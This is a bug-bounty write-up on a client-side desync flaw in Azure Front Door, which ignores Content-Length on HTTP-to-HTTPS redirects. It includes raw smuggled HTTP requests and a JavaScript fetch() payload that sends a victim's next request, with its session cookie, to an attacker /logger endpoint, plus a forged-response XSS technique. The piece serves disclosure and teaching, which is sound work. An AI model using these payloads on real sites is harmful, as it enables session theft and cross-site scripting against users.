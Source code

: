 ```yaml
---
title: "Knocking on the Front Door (client side desync attack on Azure CDN)"
date: 2023-07-31T23:26:05+02:00
author: "Jeti"
authorTwitter: "0xJeti"
---
```


A few months ago, I embarked on a security bug hunt within the scope of a private program available through the Intigriti platform. During this endeavor, I encountered an intriguing anomaly while analyzing the redirect from HTTP to HTTPS traffic on a particular host.

In this write-up, I will delve into the short journey that started after uncovering this strange behavior, ultimately leading to the discovery of a Client-Side Desync vulnerability within one of Microsoft Azure's CDN solutions known as Front Door.

## Discovery
It all started when I've sent following request to http://redacted.com:
```http
POST / HTTP/1.1
Host: redacted.com
[...]
Content-Length: 34

GET / HTTP/1.1
Host: redacted.com


```

Why such a strange request? I was just playing around in Burp after reading fantastic research on [Browser Powered desync attacks](https://portswigger.net/research/browser-powered-desync-attacks) by James [@Albinowax](https://twitter.com/albinowax)' Kettle.

And server responded with:
```http
HTTP/1.1 307 Temporary Redirect
Content-Type: text/html
Content-Length: 0
Connection: keep-alive
Location: https://redacted.com/
x-azure-ref: 20230522T201945Z-...
X-Cache: CONFIG_NOCACHE

HTTP/1.1 307 Temporary Redirect
Content-Type: text/html
Content-Length: 0
Connection: keep-alive
Location: https://redacted.com/
x-azure-ref: 20230522T201945Z-...
X-Cache: CONFIG_NOCACHE

```

At first glance, it looks like there is nothing unusual. The server received two requests in the same (keep-alive) connection and responded twice with a 307 redirect from `http://` to `https://` address.

But... Wait... In reality, I just sent one POST request with a body! The size of the body was defined by the `Content-Length` header.

However, I received two responses. This indicates that the server happily ignored the `Content-Length` header and interpreted my request as two separate requests.

This looks like a perfect candidate for Client-Side Desync attack described in above-mentioned reasearch. 

Quoting @Albinowax:
>Classic desync or request smuggling attacks rely on intentionally malformed requests that ordinary browsers simply won't send. This limits these attacks to websites that use a front-end/back-end architecture. However, as we've learned from looking at CL.0 attacks, it's possible to cause a desync using fully browser-compatible HTTP/1.1 requests. Not only does this open up new possibilities for server-side request smuggling, it enables a whole new class of threat - client-side desync attacks.

>A client-side desync (CSD) is an attack that makes the victim's web browser desynchronize its own connection to the vulnerable website. This can be contrasted with regular request smuggling attacks, which desynchronize the connection between a front-end and back-end server.

Upon conducting a more in-depth analysis, I discovered that this issue is not specific to the customer's solution but rather a general bug in the service utilized by the customer called [Azure Front Door](https://azure.microsoft.com/en-us/products/frontdoor/).

## Front Door

Azure Front Door service is a global, scalable content delivery network (CDN) and intelligent application delivery platform that provides secure and high-performance routing of web traffic to backend services.

Let's dive into some of the configurable options.

One of it's features (enabled by default) is to redirect all HTTP traffic to HTTPS.
![Frontdoor redirects HTTP to HTTPS](/frontdoor-http-to-https.png)

Technically this is done by redirecting browser to `https://` address via 307 status code:
![Front Door redirects with 307](/frontdoor-redirect-307.png)

Server supports keep-alive connections:
![Front Door supports keep-alive connections](/frontdoor-keep-alive-connections.png)

And redirects also POST requests:
![Front Door redirects POST requests](/frontdoor-redirect-post-requests.png)

But the problem is that it completely ignores `Content-Length` header:
![Front Door ignores Content-Length](/frontdoor-ignores-content-length.png)
What looks like two requests is in fact one request sent by the web browser where yellow box contains data for POST request (`Content-Length` header points to the end of the data).

But Front Door server ignores `Content-Length` header and treats it as two separate requests.

Another interesting design feature of Front Door (not a bug of course) is that all customer servers powered by Front Door service are available under one IP address and are also available in one keep-alive connection (this is a CDN service, right?). So this is perfectly valid set of requests sent in one TCP connection:

![Front Door is sharing connections](/frontdoor-sharing-connections.png)

> **NOTE 1:** *azure-victim.jeti.pw* and *azure-attacker.jeti.pw* are two separate web servers of two separate customers (I've used custom domains for better visibility).

> **NOTE 2:** *azure-attacker.jeti.pw* server doesn't have automatic HTTPS redirects turned on that is why it doesn't respond with redirect (this might be important for various exploitation techniques).

## Exploit

A CSD attack starts with the victim visiting the attacker's website, which then makes their browser send two cross-domain requests to the vulnerable website. The first request is crafted to desync the browser's connection and make the second request trigger a harmful request / response.

There are multiple ways how attacker can exploit this desynchronization issue. I'll focus on two possible ways.

### Stealing requests
Let's imagine that, upon visit from a victim, attacker's website sends a request (e.g. using Java Script `fetch API`):
```javascript
fetch('http://azure-victim.jeti.pw/x', {
method: 'POST',
  body: "POST /logger HTTP/1.1\r\nHost: azure-attacker.jeti.pw\r\nContent-Length: 200\r\n\r\n",
  mode: 'no-cors',
  redirect: 'follow',
  credentials: 'include'
})
```

![Incomplete request with fetch()](/frontdoor-fetch-incomplete-request.png)

Front Door service treats it as two separate requests where the second one is a POST request with some body attached (200 bytes long).

> **NOTE:** please remeber that *azure-attacker.jeti.pw* is configured to not to redirect automatically so the server checks `Content-Length` in this case.

As a request body is missing server will wait for 200 bytes of data to finish the request. 
All attacker needs to do is to redirect victim user to the victim's website:

```javascript
location = 'http://azure-victim.jeti.pw/'
```

Victim's browser will send another GET request (most of the time browser will re-use the  same connection). Both requests will look like this:
![[frontdoor-completed-request.png]]
Server received it's 200 bytes of data and sent POST request to http://azure-attacker.jeti.pw/logger with following **data**:
```http
GET / HTTP/1.1
Host: azure-victim.jeti.pw
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: PHPSESSID=uhogavedhcduei7qlfh1eplf7c
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Connection: keep-alive
Cache-Control: max-age=0

```

And effectively attacker had stolen the session cookie of the victim.

### "Universal" XSS by forging responses

Another way of expoiting a CSD vulnerability is to forge responses to the victim's requests.

Let's have a look at following request sent by the browser when victim visits malicious website (sent via `fetch API`):
![Poisoning response with XSS](/frontdoor-xss-request.png)

Front Door service again treats it as two separate requests and sends both to respective customer websites. And receives 2 separate responses.

But the victim's browser sent only one request so it expects only one response (307 redirect in our case). Second part stays in the connection pool waiting for another request to match (because of the HTTP pipelining).

When attacker redirects a victim, browser makes another request. 

But luckily for an attacker, the browser already have a response waiting in a connection pool (in our example response contains XSS payload that will be triggered in the context of website where victim was redirected).

As the attacker can redirect a victim to any Front Door powered website and forge the response I think this can be called a "Universal" XSS :)


